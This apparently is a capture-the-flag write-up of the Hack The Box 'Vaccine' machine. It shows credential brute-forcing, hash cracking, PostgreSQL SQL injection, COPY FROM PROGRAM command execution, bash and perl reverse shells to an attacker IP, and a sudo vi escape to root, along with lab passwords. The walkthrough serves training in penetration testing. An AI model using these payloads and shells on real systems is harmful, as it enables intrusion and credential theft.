




# NAME: 10.10.10.XX

## Hints

- There is no user (`user.txt`) flag on this machine
- You must have credentials from the post-exploitation phase of the last starting point machine (Oopsie) to help get a foothold
- SQL injection is a big part of getting a foothold
- Privesc to root is a quite common well-known method
- Privesc enumeration tools (e.g., linpeas) are your friend!

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## 80: Recon

Loaded up the web application. There was nothing apart from a login form. 



I tried all the existing credentials I had from the previous starting point boxes but had no luck. I wanted to automate it using `hydra` but couldn't since the web app didn't display correct/incorrect login attempts. Not much else available. Ran a `gobuster` in the background.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.46 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_root_medium.log -x php
```

This found the `dashboard.php` page - but this was not accessible and redirected back to `index.php`.

## 21: FTP Access

There seemed nothing else left to try, so switched to port 21 and FTP. I tried a bunch of users and passwords again using `hydra` and the credentials lists I have been gathering from all starting point boxes.

```none
└─$ hydra -L ../creds/usernames -P ../creds/passwords ftp://10.10.10.46
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-11 12:41:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking ftp://10.10.10.46:21/
[21][ftp] host: 10.10.10.46   login: ftpuser   password: mc@F1l3ZilL4
1 of 1 target successfully completed, 1 valid password found
```

Had no luck. Put in another 30 minutes or so - and was down a rabbit hole. Looked up a walk-through and discovered that to progress in this machine - you needed credentials from the previous machine. I had these! Or so I thought. The credentials are from the "post-exploitation" phase and located in the `/root` folder of the previous machine (Oopsie). I never do post-exploitation on Hack the Box - and was left frustrated (again) by the starting point boxes. Anyway, the credential found were.

- Username: `ftpuser`
- Password: `mc@F1l3ZilL4`

After getting these credentials, I added them to the `username` and `password` files in my `creds` folder. I do this to keep track of all the credentials, and to use them as input to tools. I fired up `hydra` and targeted the FTP service.

```none
└─$ hydra -L ../creds/usernames -P ../creds/passwords ftp://10.10.10.46
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-11 12:41:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:5/p:4), ~2 tries per task
[DATA] attacking ftp://10.10.10.46:21/
[21][ftp] host: 10.10.10.46   login: ftpuser   password: mc@F1l3ZilL4
1 of 1 target successfully completed, 1 valid password found
```

Success! A valid login! From here, log in to the service.

```none
└─$ ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:thomas): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Had a look at the files available and found one file called `backup.zip`. So downloaded it.

```none
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (1.2151 MB/s)
```

I tried to extract the zip file - but it was password protected. Since you can view the filenames in a password-protected zip, I could see there was a file called `index.php`. Presumed that this was for the web app login form we couldn't bypass.

```none
└─$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 
   skipping: index.php               incorrect password
   skipping: style.css               incorrect password
```

Started the cracking process using the regular tools. Ran the `zip2john` file to process the zip file and get an output hash that JtR can process.

```none
└─$ zip2john backup.zip > ziphash

ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: 2b chk, TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

Then started the cracking process. I tried my own password wordlist first (`../creds/passwords`) but had no luck. So I moved on to the well-known `rockyou.txt` wordlist included in Kali (and Seclists).

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ziphash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1g 0:00:00:00 DONE (2021-07-10 10:01) 14.28g/s 12800p/s 12800c/s 12800C/s michelle1..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Unzipping the file gave us access to the [`index.php` file](files/index.php). There was a small block of PHP at the start of the file that handled the login process.

```none
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

As you can see, the username for the web app is `admin` and the password must equal the MD5 string of `2cb42f8734ea607eefed3b70af13bbd3`. A common method for this type of MD5 hash would be an online service, for example:

```none
https://md5.gromweb.com/?md5=2cb42f8734ea607eefed3b70af13bbd3
```

But I am trying to get better at John - so did that instead. Started by putting the MD5 has in a file.

```none
└─$ echo "2cb42f8734ea607eefed3b70af13bbd3" > webhash
```

Then started the cracking process, again, using the `rockyou.txt` wordlist.

```none
┌──(thomas㉿kali)-[/media/sf_share/sp/3_vaccine/files]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt webhash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)
1g 0:00:00:00 DONE (2021-07-10 10:06) 7.142g/s 715885p/s 715885c/s 715885C/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

Success! Lots of password cracking! Got the following credentials.

- `admin`
- `qwerty789`

## 80: Admin Panel SQLi

These credentials got us access to the web app. Logged in a got a car lookup catalog. This is a simple web app that shows the name, type, fuel type, and engine size of a bunch of cars. Looks like it queries a database.



The search box was interesting - as with any web app that accepts user input! The first thing I noticed after a couple of quick tests was the web app disclosed error messages.


This is helpful when trying to perform SQL injection attacks - as we can see the error message for the queries we try to run. I started by trying the search function with "normal" user input - and noticed it only worked/searched on the "Name" column.

I assumed it was a MySQL database, and started going down the [PayloadsAllTheThings - MYSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) cheatsheet. I looked at the `ORDER BY` payloads - to try to determine how many columns there were.

- `' ORDER BY 1 --`: No change to default order visible
- `' ORDER BY 2 --`: Ordered by "Name" column
- `' ORDER BY 3 --`: Ordered by "Type" column
- `' ORDER BY 4 --`: Ordered by "Fuel" column
- `' ORDER BY 5 --`: Ordered by "Engine" column
- `' ORDER BY 6 --`: Error - out of range

This told me that there were 5 columns. There are 4 displayed on the web app - and guessing the last one that isn't displayed would be the `id`. This info helps and shows there is probably not any more useful info in the default table. 

Next step - trying a `UNION` statement - to join together the original query without own injected query. Ran a proof of concept - making a `UNION` statement to include extra rows in the output. For this one, I just added an extra string (`MEOW!`) after four `NULL`s to see if an extra row was included.

```none
' UNION SELECT NULL, NULL, NULL, NULL, 'MEOW!' --
```

Success! Next step - get the database version using a slightly modified version of the `UNION` payload we just crafted.

```none
' UNION SELECT NULL, NULL, NULL, NULL, VERSION() --
```



```none
PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu,
compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
```

As you can see - we got the version back - which was Postgres! So started following the [Payloads All The Things - PostgreSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) cheatsheet. 

With this info - started to enumerate the service more. Started by getting all the table names available.

```none
' UNION SELECT NULL, NULL, NULL, NULL, table_name FROM information_schema.tables --
```



Found the `cars` table, and dumped all the column names. This looked the same as I guessed before.

```none
' UNION SELECT NULL, NULL, NULL, NULL, column_name FROM information_schema.columns WHERE table_name='cars' --
```

This is cool and all - but not very useful. I tried to dump credentials but had no luck. Only managed to dump the username... which was `postgres`!

```none
' UNION SELECT NULL, NULL, NULL, NULL, usename FROM pg_user; --
```

Was kind of at a dead-end at the moment. And started to think the enumeration process was all about the database being Postgres, and that we had a specific version.

## Getting Command Execution

Following the idea of a Postgres vulnerability, I used `searchsploit` to try to find a useful exploit.

```none
└─$ searchsploit postgresql
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
PostgreSQL - 'bitsubstr' Buffer Overflow                                          | linux/dos/33571.txt
PostgreSQL 6.3.2/6.5.3 - Cleartext Passwords                                      | immunix/local/19875.txt
PostgreSQL 7.x - Multiple Vulnerabilities                                         | linux/dos/25076.c
PostgreSQL 8.01 - Remote Reboot (Denial of Service)                               | multiple/dos/946.c
PostgreSQL 8.2/8.3/8.4 - UDF for Command Execution                                | linux/local/7855.txt
PostgreSQL 8.3.6 - Conversion Encoding Remote Denial of Service                   | linux/dos/32849.txt
PostgreSQL 8.3.6 - Low Cost Function Information Disclosure                       | multiple/local/32847.txt
PostgreSQL 8.4.1 - JOIN Hashtable Size Integer Overflow Denial of Service         | multiple/dos/33729.txt
PostgreSQL 9.3 - COPY FROM PROGRAM Command Execution (Metasploit)                 | multiple/remote/46813.rb
PostgreSQL 9.4-0.5.3 - Privilege Escalation                                       | linux/local/45184.sh
---------------------------------------------------------------------------------- ---------------------------------
```

My method here was to look for command execution. Things like privesc and DoS are of no use so that thinned the list. From there I tried from newest to oldest. The main reason was that the Postgres version on the box was 11.5 - much newer than all of the versions listed. This was lucky (or maybe smart?!) as the first exploit I looked at was a winner.

```none
searchsploit -x multiple/remote/46813.rb
```

Looking at this Metasploit module gave a link to this very interesting blog post - named [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). I try to avoid Metasploit - so I read through the blog post and tried to figure out the exploit. The general PoC is:

```none
'; DROP TABLE IF EXISTS cmd_exec; --
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'id'; --
```

From the great write up - it seemed each step does:

- Create a table named `cmd_exec`
- Add a column called `cmd_output` with type `TEXT`
- Add in a row with the value of `id` - the command that will be run

Then run the command

```none
' UNION SELECT NULL, NULL, NULL, NULL, cmd_output FROM cmd_exec; --
```

So basically, we are creating a new table, column, and row. All by running SQL injection in the search box on the web app. Then we run another query that executes the code. This worked the first time!


## Getting a Reverse Shell

The next thing we want is a reverse shell. So we adjust our payload.

```none
'; DROP TABLE IF EXISTS cmd_exec; --
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.39/9001 0>&1'''; --
```

And, on the attacker's machine start a listener before running the last command.

```none
└─$ nc -lvnp 9001                        
listening on [any] 9001 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.46] 41298
bash: cannot set terminal process group (1621): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$
```

Hurrah! But had some problems getting a stable shell. It kept crashing after a couple minutes. So I created a new shell session using `perl`:

```none
perl -e 'use Socket;$i="10.10.14.39";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Privesc: `postgres` to `

I ran linpeas using the `postgres` user. And found a bunch of interesting stuff. To start with, there were credentials in the `dashboard.php` file - used to power the car catalog page on the web app.

```none
╔══════════╣ Finding passwords inside key folders (limit 70) - only PHP files
/var/www/html/dashboard.php:      $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
/var/www/html/index.php:    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
/var/www/html/index.php:        <input id="login__password" type="password" name="password" class="form__input" placeholder="Password" required>
```

Looking closely at the hard-coded credentials.

```none
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

Secondly, there was an SSH key for the `postgres` user. However, this is not really useful, as we already have a shell for the `postgres` user.

```none
╔══════════╣ Analizing SSH FILES Files (limit 70)

-rw------- 1 postgres postgres 2602 Jun 12  2020 /var/lib/postgresql/.ssh/id_rsa
```

Next, linpeas found an interesting entry in sudo.

```none
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                         
Matching Defaults entries for postgres on vaccine:                                                                  
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The problem is that the sudo entry requires a password. Put two and two together and determined that the password (`P@s5w0rd!`) would most likely be the password for the `postgres` account. But it might be a password from one of the other services in the starting point machines. Instead of trying manually, used `hydra` against the SSH service.

```none
└─$ hydra -L ../creds/usernames -P ../creds/passwords ssh://10.10.10.46                                       255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-11 14:31:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:6/p:6), ~3 tries per task
[DATA] attacking ssh://10.10.10.46:22/
[22][ssh] host: 10.10.10.46   login: postgres   password: P@s5w0rd!
[22][ssh] host: 10.10.10.46   login: postgres   password: P@s5w0rd!
1 of 1 target successfully completed, 2 valid passwords found
```

Not sure why it reported the same credentials twice? Anyway - got a password validated with no manual effort. Thought it was really interesting that there was an SSH key for the `postgres` user, which was not useful.

## Flag: Root

The next step, get a root shell. Leverage the command in the sudo file.

```none
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

And, using the well known `vi` shell escape:

```none
:shell
```

Got us a root shell!

```none
root@vaccine:/var/lib/postgresql# whoami
root
root@vaccine:/var/lib/postgresql# id
uid=0(root) gid=0(root) groups=0(root)
root@vaccine:/var/lib/postgresql# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- The key to this box was just enough enumeration at each step. Watch those rabbit holes!
- Automating credentials checks reduces human error and is much faster
- Save notes to a share between host/guest. I lost my notes for this box.

## Useful Resources

- Check the official/non-official walkthroughs on Hack The Box website
